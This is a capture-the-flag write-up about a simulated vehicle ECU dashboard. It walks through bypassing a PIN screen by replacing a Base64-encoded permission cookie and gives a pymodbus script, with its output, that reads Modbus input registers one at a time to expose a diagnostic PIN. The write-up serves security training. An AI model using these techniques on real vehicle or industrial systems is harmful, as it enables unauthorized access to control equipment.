



[Home](../../README.md) | [Challenges](../../challenges/challenges.md) | [Tools](../../tools/tools.md) 
# Can You Fix It Dashboard 1

## Scenario
Field technicians at Snowpoint are experiencing critical malfunctions with their custom vehicles, specifically involving engine ignition failures and unresponsive climate control systems. Engineers suspect a **cyber physical anomaly** within either the **Electronic Control Units** (ECUs), **Engine Control Modules** (ECMs), or the **HVAC systems**. To investigate without grounding the fleet, security teams are auditing a simulator harness that hosts the ECU dashboard on `web port 5001` and a configuration database on `Modbus port 5021`. They are searching for security flaws, such as an **exposed access PIN**, that could allow an external attacker to manipulate these vehicle modules.

## Timeline and Incident Response
To analyze session management, a dummy PIN (`1234`) was submitted to the `/update_permissions` endpoint, and the response headers were evaluated using browser developer tools.
  

To determine if the authentication mechanism triggered privilege escalation within the dashboard, application storage was inspected for any tokens or cookies assigned to the current browser session.
  


---

### Finding  
The application relies on insecure, clientside role tracking. Upon PIN submission, the server returns a Base64 encoded cookie `permission=YmFzaWM=` that decodes directly to the plaintext string `basic`.

---

To test the web application's access controls, the target privilege level `diagnostics` was Base64 encoded to `ZGlhZ25vc3RpY3M=`.
The browser's session cookie was manually modified with this payload, and the request was resubmitted.
  

---

### Finding  
Injecting the payload successfully bypassed the frontend PIN screen and granted access to the `Diagnostic View`, confirming a vulnerability stemming from flawed client side session tracking.

---

Following the web application bypass, initial attempts were made to bulk scan the Modbus server.

---

### Finding  
The bulk scans failed or returned empty datasets, which revealed that the Modbus server rejects multi-register requests and explicitly requires individual queries.

---

A Python script using the `pymodbus` package was developed to query the server on `port 5021` for exactly one register at a time, starting from `address 0`:
```python
import time
from pymodbus.client import ModbusTcpClient

# Target Modbus configuration from challenge description
IP_ADDRESS = '192.168.100.5'
PORT = 5021

print(f"[*] Initializing connection to {IP_ADDRESS}:{PORT}...")
client = ModbusTcpClient(IP_ADDRESS, port=PORT)

if client.connect():
    print("[+] Connected successfully! Beginning single-register sweep...")

    # Checking addresses 0 through 200 one-by-one to avoid multi-register errors
    for address in range(0, 200):
        try:
            # 1. Check Holding Registers (4xxxx)
            holding_res = client.read_holding_registers(address=address, count=1, slave=1)
            if not holding_res.isError():
                val = holding_res.registers[0]
                if val != 0:
                    print(f"[FOUND] Holding Register {address} contains value: {val}")

            # 2. Check Input Registers (3xxxx) 
            input_res = client.read_input_registers(address=address, count=1, slave=1)
            if not input_res.isError():
                val = input_res.registers[0]
                if val != 0:
                    print(f"[FOUND] Input Register {address} contains value: {val}")

            # Tiny sleep to ensure timing doesn't trip up the simulator loop
            time.sleep(0.02)

        except Exception as e:
            continue

    client.close()
    print("[*] Sweep complete.")
else:
    print("[-] Connection failed. Please check the network path or port mapping.")
```

Python script output:
```shell
PS C:\Users\coreadmin\Downloads> python .\query_modbus.py
[*] Initializing connection to 192.168.100.5:5021...
[+] Connected successfully! Beginning single-register sweep...
[FOUND] Input Register 0 contains value: 5000
[FOUND] Input Register 1 contains value: 5020
[FOUND] Input Register 2 contains value: 500
[FOUND] Input Register 3 contains value: 15
[FOUND] Input Register 4 contains value: 20037
[FOUND] Input Register 5 contains value: 18765
[FOUND] Input Register 6 contains value: 1234
[FOUND] Input Register 7 contains value: 39578
[*] Sweep complete.
```

---

### Finding 
The individual scan successfully avoided server errors and dumped the first few `Input Registers`. This exposed the environment's configuration values, including the baseline port layouts, the default PIN: `1234`, and the valid diagnostic PIN: `39578`.

---

## Summary/Solution
  
During an audit of the vehicle simulator harness, a flawed client side session tracking mechanism was discovered on the ECU dashboard's web interface. By modifying a `Base64` encoded browser cookie, the frontend PIN authentication was bypassed, granting access to the `Diagnostic View`. Subsequently, the configuration database on the Modbus server was enumerated using a custom Python script designed to bypass the server's multi-register request restrictions. Querying exactly one register at a time successfully dumped the `Input Registers` and exposed the valid diagnostic PIN: `39578`.


